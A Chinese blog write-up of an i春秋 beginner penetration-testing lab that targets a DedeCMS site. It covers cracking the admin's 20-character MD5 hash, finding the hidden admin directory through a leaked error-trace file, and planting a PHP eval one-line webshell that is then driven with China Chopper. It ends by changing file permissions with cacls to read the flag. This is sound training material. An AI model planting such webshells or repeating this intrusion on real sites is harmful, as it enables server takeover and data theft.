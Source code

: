 ```yaml
---
title: 【i春秋】渗透测试入门 —— 真的很简单
copyright: true
date: 2018-03-06 15:56:26
tags: [i春秋,pentest,exploit,writeup,CMS,crypto,web,php,trojan,vulnerability,privilege,cmd]
categories: [InfoSec,Pentest]
---
```


# 0x00 前言

本题是渗透测试入门的一道基础题，虽然美其名曰“真的很简单”，但对于新手还是有一定挑战性的，实践并掌握本题中的所有知识点，对渗透测试的基本理解有很大帮助。

此题的目标是对一个基于[织梦 CMS](http://www.dedecms.com/) 的网站进行渗透测试，找到网站登录后台，继而入侵服务器找到存放 flag 的文件。从实验手册上，可看出其中还会涉及到简单的提权过程。

- 题目链接：[https://www.ichunqiu.com/battalion?t=2&r=54399](https://www.ichunqiu.com/battalion?t=2&r=54399)
- 解题链接：[https://www.ichunqiu.com/vm/51123/1](https://www.ichunqiu.com/vm/51123/1)

<!-- more -->

![guide](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/guide.png)

# 0x01 网站管理员的密码是多少？

第 1 题相对简单，在实验环境内根据提示打开下载链接 `http://file.ichunqiu.com/49ba59ab`，接着下载爆破工具 `dedecms.exe`：

![dedecms_download](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms_download.png)

打开工具，输入目标 URL，一键爆破得到管理员的账号 `ichunqiu` 与密码哈希值 `adab29e084ff095ce3eb`：

![dedecms](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms.png)

仔细数数，发现密码哈希值是 20 位的（注：此处的“位”均为十六进制，而非二进制），上网一查才发现这是织梦 CMS 的特性，实现过程可参考 [DEDECMS的20位MD5加密密文解密示例介绍](http://www.jb51.net/cms/104721.html)：

![dedecms_md5](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms_md5.png)

将 20 位的哈希值用 [MD5解密工具](http://www.dmd5.com/md5-decrypter.jsp) 解密，得到密码明文 `only_system`：

![password](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/password.png)

为验证 20 位的 MD5 哈希算法规则，可进一步用 [MD5加密工具](https://md5jiami.51240.com/) 对 `only_system` 加密，发现其 16 位哈希值确实能由 20 位哈希值去掉前 3 位与后 1 位所得:

![password_verify](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/password_verify.png)

# 0x02 网站后台目录名是什么？

第 2 题上来先尝试织梦 CMS 的默认后台路径 `/dede/index.php` 或 `/dede/login.php`，得到 404 的结果也是意料之中，即现在的问题是要找出修改后的后台目录名。

打开实验工具箱，发现【目录扫描】文件夹，以【御剑后台扫描工具】为例，对目标 URL 扫描后得到如下结果：

![directory_scan](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/directory_scan.png)

注意，为了保证扫描效率，一般后台扫描工具都是采用字典扫描，而不是暴力穷举，因此**不同扫描器得到的结果不完全相同，尽可能使用多种扫描器，偏僻怪异的名字可能扫描不出来**。

笔者采用了多种扫描器，并对其可能的结果进行验证，都一无所获，即可**判断此后台目录名具有较强的个性或随机性**。

所以要转换思路，看看织梦 CMS 是否存在后台地址信息泄露的漏洞。果不其然，发现从报错文件 `/data/mysql_error_trace.inc` 或 `/data/mysqli_error_trace.inc` 中，可得到泄露的后台路径，具体可参考：

> [dedecms的各种卡哇伊小漏洞](http://blog.csdn.net/wangyi_lin/article/details/9286937)
> [dedecms(织梦)漏洞&exp整理](http://www.cnblogs.com/hookjoy/p/6996820.html)
> [php学习之织梦dedecms漏洞讲解](http://www.daixiaorui.com/read/14.html)

最后在 `/data/mysqli_error_trace.inc` 中获得后台目录名为 `lichunqiul`：

![mysqli_error_trace](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/mysqli_error_trace.png)

对其进行验证，终于看到了后台登录页面：

![login](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/login.png)

# 0x03 管理员桌面中 flag 文件信息是？

用账号 `ichunqiu` 与密码 `only_system` 登录后台后，根据实验手册，要想办法利用[中国菜刀](http://www.zhongguocaidao.com/)连接服务器，获得 webshell，进而查看 flag 文件中的信息。

## 获取 webshell

首先我们需要在服务器插入[一句话木马](https://baike.baidu.com/item/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC)，然后才能用菜刀连接，获得 webshell。这里介绍两种插入一句话木马的方法。

### 直接修改模板 PHP 源码

依次点击 **模板 -> 标签源码管理**，以编辑第一个模板 `adminname.lib.php` 为例：

![template_list](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/template_list.png)

在模板源码第一行插入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![template_edit](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/template_edit.png)

接着在工具箱【webshell】文件夹打开【中国菜刀】：

![chopper](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/chopper.png)

在 **添加SHELL** 输入框中，输入被插入木马模板文件的地址 `http://www.test.ichunqiu/include/taglib/adminname.lib.php`，其右侧填入木马中接收 POST 请求数据的 key 字段 `cmd`，脚本类型为 `PHP(Eval)`，字符编码为 `GB2312`，设置完成后点击 **添加**：

![add_shell_1](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/add_shell_1.png)

若参数设置正确，双击所添加的条目，即可连接服务器的资源管理器，进入到模板文件所在的目录：

![manager_1](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_1.png)

### 上传一句话木马文件

先在本地创建文件 `trojan.php`，写入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![trojan_edit](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_edit.png)

再依次点击 **系统 -> 系统基本参数 -> 附件设置**，如下图更改允许上传的文件类型，否则木马将上传失败：

![file_type](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/file_type.png)

最后点击 **核心 -> 上传新文件**，如下图所示上传木马：

![trojan_upload](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_upload.png)

上传完毕后点击 **核心 -> 附件数据管理 -> 更改**，即可查看木马的路径：

![trojan_path](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_path.png)

接着利用菜刀添加SHELL，步骤同上，只不过地址更改为 `http://www.test.ichunqiu/uploads/soft/180307/1_1503138291.php`：

![add_shell_2](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/add_shell_2.png)

若参数设置正确，双击连接服务器的资源管理器，即可进入到木马所上传的目录：

![manager_2](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_2.png)

## 权限提升

进入到管理员桌面可看到 flag 文件 `flag~ichunqiu.txt`：

![manager_flag](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_flag.png)

但双击后未显示任何内容，估计是权限受限。接下来可右键点击条目，祭出虚拟终端，即 webshell 的命令行模式：

![chopper_terminal](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/chopper_terminal.png)

先切换至管理员桌面，用 `cacls` 命令查看 flag 文件的[访问控制列表（ACL）](https://baike.baidu.com/item/%E8%AE%BF%E9%97%AE%E6%8E%A7%E5%88%B6%E5%88%97%E8%A1%A8)，后用 `whoami` 命令查看用户名，发现 `authority\system` 用户对于 flag 文件的权限是 N，即无权限，用 `type` 命令查看 flag 文件果然是拒绝访问的：

![deny](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/deny.png)

用 `cacls` 命令更改了访问权限后，`authority\system` 用户对于 flag 文件的权限变成了 F，即所有权限，再次查看 flag 文件内容即可看到 `key{il2o3l}`：

![flag](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/flag.png)

注意提交答案的时候有个坑，记得先拆掉包装，只需提交 `il2o3l` 即可。最后附上 `cacls` 命令的用法：

![cacls](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/cacls.png)

# 0x04 小结

所谓条条大路通罗马，以上思路可能只是完成目标的其中一种方法。本人能力有限，面对工具箱中种类繁多的各种工具不能信手拈来，对于 Windows 命令的使用也掌握不深，尤其是实验手册中提到的 `net.exe` 工具尚未使用，因为在 webshell 中使用 `net` 命令也是拒绝访问的，这个问题还请各位前辈不吝赐教。

最后向以下两篇参考 writeup 的作者表示致谢！

> [09-在线挑战详细攻略-《真的很简单》](https://bbs.ichunqiu.com/thread-19282-1-1.html)
> [爱春秋-WEB渗透实验-真的很简单-实验记录](https://bbs.ichunqiu.com/thread-15780-1-1.html)